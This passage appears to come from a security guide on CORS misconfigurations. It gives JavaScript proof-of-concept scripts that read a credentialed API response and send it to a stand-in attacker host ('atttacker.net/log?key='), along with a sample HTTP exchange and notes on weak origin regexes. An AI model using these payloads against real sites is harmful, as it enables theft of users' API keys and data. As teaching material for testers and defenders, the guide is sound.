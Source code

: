 #### Proof of concept

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

### Vulnerable Example: Expanding the Origin / Regex Issues
Occasionally, certain expansions of the original origin are not filtered on the server side. This might be caused by using a badly implemented regular expressions to validate the origin header.

#### Vulnerable Implementation (Example 1)

In this scenario any prefix inserted in front of `example.com` will be accepted by the server. 

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```

#### Proof of concept (Example 1)

This PoC requires the respective JS script to be hosted at `evilexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

#### Vulnerable Implementation (Example 2)

In this scenario the server utilizes a regex where the dot was not escaped correctly. For instance, something like this: `^api.example.com$` instead of `^api\.example.com$`. Thus, the dot can be replaced with any letter to gain access from a third-party domain.
